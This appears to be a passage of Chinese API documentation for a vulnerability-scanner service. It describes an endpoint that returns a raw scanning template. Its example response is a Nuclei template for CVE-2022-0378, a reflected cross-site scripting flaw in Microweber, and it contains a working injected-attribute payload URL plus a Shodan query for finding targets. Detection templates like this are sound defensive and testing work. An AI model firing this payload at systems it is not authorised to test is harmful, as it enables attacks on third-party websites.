 ```
{
  "message": "could not parse template: no template name field provided",
  "error": "code=400, message=could not parse template: no template name field provided"
}
```

### 5. 获取模板原始内容

- 请求方式：`GET`
- 接口地址：`/templates/raw`

| 参数名  |   类型   | 说明      | 示例                           |
|:----:|:------:|:--------|:-----------------------------|
| path | string | 模板自定义路径 | test/CVE-2022-0378test2.yaml |


> 返回示例：

```
id: CVE-2022-0378test2

info:
  name: Microweber Reflected Cross-Site Scripting
  author: pikpikcu
  severity: medium
  description: Microweber contains a reflected cross-site scripting in Packagist microweber/microweber prior to 1.2.11.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0378
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2022-0378
    cwe-id: CWE-79
  metadata:
    shodan-query: http.favicon.hash:780351152
  tags: cve,cve2022,microweber,xss

requests:
  - method: GET
    path:
      - '{{BaseURL}}/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(document.domain)+xx=%22test&from_url=x'

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - 'mwui_init'
          - 'onmousemove="alert(document.domain)'
        condition: and

# Enhanced by mp on 2022/02/28
```
